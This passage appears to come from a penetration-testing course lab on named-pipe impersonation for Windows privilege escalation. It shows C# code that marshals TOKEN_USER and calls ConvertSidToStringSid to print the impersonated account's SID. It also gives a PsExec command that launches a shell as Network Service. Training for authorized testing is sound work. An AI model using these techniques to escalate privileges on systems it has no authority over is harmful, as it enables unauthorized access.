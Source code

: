 > Listing 27 - ConvertSidToStringSid function prototype

The first argument (_Sid_) is a pointer to the SID. The SID is in the output buffer that was populated by _GetTokenInformation_, but we must extract it first.

One way to do this is to define the _TOKEN_USER_[23](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-23) structure (which is part of the _TOKEN_INFORMATION_CLASS_ used by _GetTokenInformation_) and then marshal a pointer to it with _Marshal.PtrToStructure_.[24](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-24)

For the last argument (_*StringSid_), we'll supply the output string. Here we can simply supply an empty pointer and once it gets populated, marshal it to a C# string with _Marshal.PtrToStringAuto_.[25](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5353-25)

The required structures, import, and added code are shown in Listing 28.

```
 [StructLayout(LayoutKind.Sequential)]
public struct SID_AND_ATTRIBUTES
{
    public IntPtr Sid;
    public int Attributes;
}

public struct TOKEN_USER
{
    public SID_AND_ATTRIBUTES User;
}
...
[DllImport("advapi32", CharSet = CharSet.Auto, SetLastError = true)]
static extern bool ConvertSidToStringSid(IntPtr pSID, out IntPtr ptrSid);
...
TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
IntPtr pstr = IntPtr.Zero;
Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
string sidstr = Marshal.PtrToStringAuto(pstr);
Console.WriteLine(@"Found sid {0}", sidstr);
```

> Listing 28 - Code additions to call ConvertSidToStringSid

At the end of Listing 28, we print the SID associated with the token to the console, showing which user we impersonated.

Now we have finally written all the code we need to start our test and better understand the use of named pipes for impersonation and privilege escalation.

As previously mentioned, we must execute the code in the context of a user account that has the _SeImpersonatePrivilege_ access right. For our attack demonstration, we'll log in to appsrv01 as the domain user _admin_ and use PsExec to open a command prompt as the built-in _Network Service_ account as shown in Listing 29.

```
C:\Tools\SysInternalsSuite> psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
```
